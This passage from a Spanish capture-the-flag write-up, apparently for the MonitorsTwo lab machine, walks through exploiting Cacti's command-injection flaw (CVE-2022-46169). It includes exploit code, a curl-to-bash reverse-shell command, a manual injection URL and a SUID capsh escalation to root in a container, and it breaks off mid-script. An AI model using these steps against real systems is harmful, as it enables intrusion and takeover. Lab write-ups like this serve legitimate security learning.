 ```
```

Cuando se llama ```poll_for_data()``` se recuperan algunos parámetros de la peticion, si el ```action``` de ```poller_item``` entra el case ```POLLER_ACTION_SCRIPT_PHP```, la función ```proc_open``` ejecuta un script PHP

Y uno de los parametros es ```poller_id```, y se recupera a través de la función ```get_filter_request_var()```, si buscan esa funcion en google, se daran cuenta que perimte insertar cadenas arbitrarias, esta variable de ```poller_id``` se inserta luego en la cadena que se le pasa a proc_open, por lo que nosotros podemos indicarle que ejecute cualquier otra cosa en ```poller_id```, lo que conduce a una vulnerabilidad de inyección de comandos.

Al buscar en google podemos encontrar un par de exploits, usare este: [https://github.com/sAsPeCt488/CVE-2022-46169](https://github.com/sAsPeCt488/CVE-2022-46169)

Si vemos un poco el codigo:

```python
    url = f'{args.target}/remote_agent.php'
    params = {'action': 'polldata', 'host_id': host_id,
              'poller_id': payload, 'local_data_ids[]': local_data_ids}
    headers = {'X-Forwarded-For': '127.0.0.1'}
```

Vemos como en el parametro ```poller_id``` le esta adjuntando nuestro payload, que es esto declarado mas aca arriba: ```payload = f'; /bin/sh -c "{cmd}"'```, 

Solo queda ejecutar el exploit asi: ```python3 CVE-2022-46169.py http://10.10.11.211 -c "curl <tu_IP>:8080/shell.sh | bash"```

Si quieren hacer una explotacion manual, apunten a este recurso:

```/remote_agent.php?action=polldata&poller_id=;bash -c '<comando>'```

Y ya nos llego la rev shell:

![](/assets/img/commons/monitorsTwo/3.png)


## Escalada de Docker

Ahora buscaremos binarios con permisos SUID: ```find / -perm -u=s -type f 2>/dev/null```

Podemos ver el binario: ```/sbin/capsh```

Si haces una busqueda en GFTObins encontramos que nos podemos hacer root: [](https://gtfobins.github.io/gtfobins/capsh/#suid)

```
www-data@50bca5e748b0:/sbin$ ./capsh --gid=0 --uid=0 --
./capsh --gid=0 --uid=0 --
whoami 
root
id
uid=0(root) gid=0(root) groups=0(root),33(www-data)
```

Sin embargo, no nos servira para conseguir ninguna flag, ya que estamos dentro de un contenedor, a este punto decidi usar linpeas para ver si hay otro archivo interesante, y me arrojo que existe uno que se llama ```/entrypoint.sh```.

```bash
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
```